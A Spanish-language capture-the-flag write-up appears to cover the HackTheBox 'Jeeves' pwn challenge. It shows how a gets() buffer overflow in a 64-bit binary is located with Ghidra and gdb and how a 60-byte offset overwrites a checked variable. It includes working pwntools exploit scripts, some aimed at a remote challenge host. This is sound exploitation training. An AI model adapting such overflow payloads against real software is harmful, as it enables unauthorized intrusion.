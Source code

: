 ```yaml
---
title: Jeeves - Pwn Challenge (HTB) ❤
author: sha-16
categories: [linux, binary exploitation, htb]
tags: [linux, pwn, htb, 64-bit] 
---
```


![Untitled](/assets/img/htb/pwn/Jeeves/image.png)

Este es un reto de pwning el cual implica explotar una vulnerabilidad Buffer Overflow en un binario de 64 bits. El objetivo principal es sobrescribir el valor de un registro de memoria en específico, el cual se emplea en una condición dentro del programa; la cual si resulta ser verdadera, provocará que este imprima la flag.

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled.png)

Como se observa a continuación, el binario recibe un input del usuario, el cual es impreso en el output resultante de la ejecución:

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%201.png)

Al analizar el código Assembler se identifican dos instrucciones importantes en la función **main**.

Primeramente se asigna el valor `0xdeadc0d3` al registro `rbp-4` , a través de la instrucción **MOV**.

```jsx
0x00005555555551f5 <+12>:    mov    DWORD PTR [rbp-0x4],0xdeadc0d3
```

Posterior a esto, dicho valor es sometido a un condicional, a través de una instrucción **CMP**, de comparación, con el valor `0x1337bab3`.

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%202.png)

Al observar el código fuente, reverseado con **Ghidra**, se puede entender mucho mejor cómo funciona el programa.

Como se visualiza en imagen, el valor de la variable `target_variable` es sometido a un condicional. Si dicho valor es igual a `0x1337bab3`, el programa imprimirá el contenido del archivo `flag.txt`, caso contrario no lo hará y sólo terminará la ejecución: 

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%203.png)

Es importante mencionar que en el código reverseado se identifica que el programa recibe el input del usuario a través de la función `gets`, la cual es vulnerable a ataques de desbordamiento de buffer, de acuerdo a su documentación:

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%204.png)

Sabiendo esto, se procede a debuggear el binario, utilizando la herramienta **gdb-gef**.

Previo a arrancar, se debe crear un archivo `flag.txt`, de prueba, debido a que el programa lee el contenido de este para obtener el valor de la flag: 

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%205.png)

Hecho esto, se procede a abrir el binario con **gdb-gef**, donde se establece un breakpoint en la instrucción de memoria, en la cual se realiza la comparación del valor `0x1337bab3` con el valor almacenado en el registro `rbp-0x4`:

```jsx
0x0000555555555236 <+77>:    cmp    DWORD PTR [rbp-0x4],0x1337bab3
```

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%206.png)

Al ejecutar el programa, con el breakpoint en el condicional, se logra visualizar que el valor almacenado en el registro `rbp-4`, corresponde a `0xdeadc0d3`:

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%207.png)

A modo de prueba se modifica el valor de dicho registro de memoria por `0x1337bab3`, con el objetivo de que el resultado de la condición sea verdadero:

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%208.png)

Como se mostró en la imagen anterior, cuando el resultado de la condicional es verdadero, el programa imprime la flag, almacenada en el archivo `flag.txt`.

Sin embargo, para lograr el desafío de HTB no podemos usar **gdb**, debemos lograrlo directamente a través de un Buffer Overflow.

Para esto, primeramente podemos identificar que se configura el input del usuario, el cual como límite debe ser una cadena de 44 bytes:

```c
char user_name [44];
int flag_content;
void *flag_length;
int target_variable;
```

Si metemos más caracteres de los que soporta el valor de la variable, el buffer se sobrescribe al momento de llamar a la función `gets`, lo cual causa que el programa no termine su ejecución de manera exitosa:

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%209.png)

Sabiendo esto, se crea una cadena de 100 bytes con la herramienta `pattern create`, de gdb, la cual se inyecta en el input para detectar el offset, que corresponde a todo el junk previo a meter para sobrescribir el valor almacenado en `rbp-4`:

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%2010.png)

Como se puede ver, luego de inyectar dicha entrada de caracteres, se detecta que el offset es 60:

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%2011.png)

De esta manera, lo que se puede concluir hasta ahora, es que tenemos que introducir 60 caracteres antes de sobrescribir el valor de `rbp-4`.

De esta forma, a modo de validar la sobreescritura de `rbp-4` se crea la siguiente cadena, la cual son 60 As y 6 Bs:

```jsx
┌──(sha16㉿offs3c)-[~]
└─$ python3 -c "print('\x41'*60+'\x42'*6)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
```

Posterior a la inyección de la cadena creada, se determina que el offset es correcto, dado que el valor de `rbp-4` es `BBBBBB`:

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%2012.png)

Dado esto, se procede a armar el siguiente exploit en Python3, el cual se encarga de inyectar el valor en el registro `rbp-4`:

```python
#!/usr/bin/python3

from pwn import context, process, p64

if __name__ == '__main__':
    # Set program context
    context.update(arch='amd64', os='linux')
    elf = process('./jeeves')

    # BoF
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'

    # Send payload
    elf.sendline(payload)
    elf.interactive()
```

Al ejecutar el exploit, se observa que la flag es obtenida correctamente:

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%2013.png)

Sabiendo que el exploit funciona, ahora este puede ser adaptado a una versión remota para obtener el flag de HackTheBox y completar el reto correctamente:

```python
#!/usr/bin/python3

from pwn import p64
from socket import socket

if __name__ == '__main__':
    # Connection Data
    host = '206.189.121.78'
    port = 31129

    # BoF (payload)
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'

    with socket() as s:
        s.connect((host, port))
        s.send(payload)
        print(s.recv(4096))
        print(s.recv(4096))
```

Al ejecutar el exploit, se obtiene con éxito la flag del desafío:

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%2014.png)

De forma aparte, me gustaría mostrarles cómo con la librería de pwntools también pueden crear su propio exploit, un tanto más elegante:

```python
#!/usr/bin/python3

from pwn import remote, p64, success
from socket import socket

if __name__ == '__main__':
    # Connection Data
    host = '206.189.121.78'
    port = 31129

    # BoF (payload)
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'
		
    # Remote Connection
    connection = remote(host, port)
    connection.sendline(payload)
    connection.recvuntil(b'Here\'s a small gift:')
    flag = connection.recv(4096)
    success(b'HTB Flag:' + flag)
```

Al ejecutarlo la flag es obtenida a través de un output mucho más limpio:

![Untitled](/assets/img/htb/pwn/Jeeves/Untitled%2015.png)

Eso es todo, espero que le haya gustado y servido mucho este post para aprender algunos conceptos básicos de binary exploitation. La verdad es una temática en la que recién me estoy adentrando y compartirles esto me sirve mucho para retroalimentar estos conceptos. 

Cualquier duda, consulta, corrección, etc., saben que me pueden contactar en LinkedIn o Twitter 👾

Happy Hacking 🏴‍☠️